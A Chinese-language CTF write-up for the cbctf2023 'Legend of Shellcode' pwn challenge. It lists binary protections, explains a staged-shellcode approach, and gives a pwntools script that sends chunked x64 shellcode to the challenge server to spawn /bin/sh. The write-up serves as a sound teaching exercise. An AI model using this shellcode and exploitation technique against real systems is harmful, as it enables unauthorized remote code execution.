 ```yaml
---
title: cbctf2023 - The Legend of Shellcode
date: 2024/4/22 00:35:00
updated: 2024/7/25 12:34:56
tags:
    - shellcode
excerpt: 通过构造shellcode并利用堆栈控制，成功实现对目标程序的远程代码执行。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |off   |
|PIE   |on    |
|strip |no    |
|libc  |2.31-0ubuntu9.12|

## 解题思路

nx没开，栈上放了一堆`ret`，一运行就是`pop rip`，那么控制好rsp，就能让rip跳到下一个read的段；
由于我想的是`add rax,0x10;push rax`的方式移动rip，因此读入9字节，只剩4字节空间了，不适合放"/bin/sh"
字符串，因此考虑在初始读入的位置搓一个`SYSCALL_read`出来方便读入完整的shellcode（打newstar ctf打的），
再跳转过去就可以拿到shell

> 赛后交流发现short jmp所耗字节更少，还是疏忽了

## EXPLOIT

```python
from pwn import *
context.arch = 'amd64'

def payload(lo:int):
    if lo:
        sh = process('./code')
        if lo & 2:
            gdb.attach(sh, gdbscript='b *$rebase(0x13b7)')
    else:
        sh = remote('training.0rays.club', 10004)

    # section 1
    shc = asm('''
    push rax
    xor rdi,rdi
    add rax,0x10
    push rax
    ''')
    sh.send(shc)

    # section 2
    shc = asm('''
    pop rbx
    mov rdx,r11
    add rax,0x10
    push rax
    ''')
    sh.send(shc)

    # section 3
    shc = asm('''
    push rbx
    pop rsi
    push rbx
    xor rax,rax
    syscall
    ret
    ''')
    sh.send(shc)

    # skipping rest
    sh.sendlineafter(b'sh:', b'')
    sh.sendlineafter(b'ht:', b'')
    sh.sendlineafter(b'ul:',b'')
    

    # section SYSCALL_read
    shc = asm('''
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor rsi,rsi
    xor rdx, rdx
    push 0x3b
    pop rax
    syscall
    ''')
    sh.sendlineafter(b'ru', shc)

    sh.interactive()
```

